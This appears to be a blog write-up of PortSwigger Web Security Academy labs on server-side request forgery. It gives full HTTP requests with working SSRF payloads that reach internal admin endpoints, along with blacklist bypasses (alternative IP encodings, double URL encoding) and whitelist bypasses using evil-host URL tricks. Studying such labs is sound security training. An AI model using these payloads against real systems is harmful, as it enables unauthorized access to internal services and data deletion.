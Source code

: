 ```yaml
---
title: PortSwigger - Server Side Request Forgery
date: '2024-05-10'
tags: ['PortSwigger', 'PortSwigger Labs', 'Web Security']
draft: false
summary: 
---
```


#### Basic SSRF against the local server
This is a very simple lab. The following request contains an ssrf vulnerability :
```http
POST /product/stock HTTP/2
Host: 0a5100bb03996a16845a09d4002600ba.web-security-academy.net
Cookie: session=512svTNLynrTWILxUFFWzCa1E5YOIxny
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5100bb03996a16845a09d4002600ba.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a5100bb03996a16845a09d4002600ba.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
```

Change it to :

```http
POST /product/stock HTTP/2
Host: 0a5100bb03996a16845a09d4002600ba.web-security-academy.net
Cookie: session=512svTNLynrTWILxUFFWzCa1E5YOIxny
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5100bb03996a16845a09d4002600ba.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Origin: https://0a5100bb03996a16845a09d4002600ba.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http://localhost/admin/delete?username=carlos
```

#### Basic SSRF against another back-end system

In this lab we don't know the exact IP address where the admin interface is hosted, so we try to send the request to intruder and enumerate the last octet of the IP address. Based on the responses we will know the correct IP address.


#### SSRF with blacklist-based input filter
Use the following
- `127.0.0.1`
- `2130706433`
- `017700000001`
- `127.1`
- Register your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.

We try `http://127.0.0.1` , it does not work. `http://127.1/admin` still nothing.
double Url encoding helps us bypass blacklist : `http://127.1/%2561dmin`

```http
POST /product/stock HTTP/2
Host: 0afb00d5041978db80486268009b00eb.web-security-academy.net
Cookie: session=ZBpeHMBlmyUuCjKLeM3sPdnjVqFu7fL3
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0afb00d5041978db80486268009b00eb.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Origin: https://0afb00d5041978db80486268009b00eb.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http://127.1/%2561dmin/delete?username=carlos
```

#### SSRF with whitelist-based input filter
- `https://expected-host:fakepassword@evil-host`
- `https://evil-host#expected-host`
- `https://expected-host.evil-host`
- We can also url encode characters
- Try double encoding


First we try
`127.0.0.1`
`http://username@stock.weliketoshop.net/`
`http://username#@stock.weliketoshop.net` gets 500 indicating server tried to process it
`http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos`

```http
POST /product/stock HTTP/2
Host: 0abf00f103d094638071e98800b80003.web-security-academy.net
Cookie: session=qUtEdcYQ2iug1VhMOV2FBBTKSYIay0Qy
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0abf00f103d094638071e98800b80003.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 85
Origin: https://0abf00f103d094638071e98800b80003.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
```

#### SSRF with filter bypass via open redirection vulnerability
The parameter `path` is vulnerable to open redirection


```http
POST /product/stock HTTP/2
Host: 0a3f000304fbb6608052677b00d500d9.web-security-academy.net
Cookie: session=JkfUpvwXo2g8Ycg6pLD0pHNfdeNtQXWl
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3f000304fbb6608052677b00d500d9.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 123
Origin: https://0a3f000304fbb6608052677b00d500d9.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp%3a//192.168.0.12%3a8080/admin/delete%3fusername%3dcarlos
```



---

# Blind SSRF

When the response of a SSRF vulnerability is not received on attackers end. It is common when testing for SSRF vulnerabilities to observe a DNS look-up for the supplied Collaborator domain, but no subsequent HTTP request. This typically happens because the application attempted to make an HTTP request to the domain, which caused the initial DNS lookup, but the actual HTTP request was blocked by network-level filtering. It is relatively common for infrastructure to allow outbound DNS traffic, since this is needed for so many purposes, but block HTTP connections to unexpected destinations.

